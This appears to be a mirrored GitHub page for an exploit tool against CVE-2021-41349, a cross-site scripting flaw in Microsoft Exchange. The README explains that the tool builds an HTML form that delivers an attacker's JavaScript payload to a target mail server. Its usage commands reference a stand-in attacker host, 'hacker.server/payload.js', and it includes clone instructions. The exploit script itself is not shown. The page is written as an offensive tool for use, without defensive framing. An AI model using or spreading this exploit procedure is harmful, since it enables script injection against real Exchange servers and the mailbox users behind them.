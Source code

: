 # CVE-2021-41349

Exploiting: CVE-2021-41349

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/exploit-io](https://github.com/exploit-io) |
| Url      | [https://github.com/exploit-io/CVE-2021-41349](https://github.com/exploit-io/CVE-2021-41349)                                               |
| Stars    | 8                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-41349* microsoft-exchange* vulnerability

</details>

## Readme

# Microsoft Exchange Exploit CVE-2021-41349
Exploiting: CVE-2021-41349
This exploiting tool creates a Form for posting XSS Payload to the target Exchange server.
You need to create a `js` containing your desire to do.

# Usage
1. Create Your `js` Payload and upload it somewhare.
2. run the `CVE-2021-41349.py` same as following steps.
```shell
python3 CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
or:
```shell
./CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
3. Upload The `html` file into server.
4. Done! Test it!

# Credits
* [@exploitio](https://twitter.com/exploitio)


## Get the content

```
git clone https://github.com/exploit-io/CVE-2021-41349
cd CVE-2021-41349
```

{% embed url="https://github.com/exploit-io/CVE-2021-41349" %}

<figure><img src="https://avatars.githubusercontent.com/u/71645666?v=4" alt=""><figcaption><p>exploit-io</p></figcaption></figure>
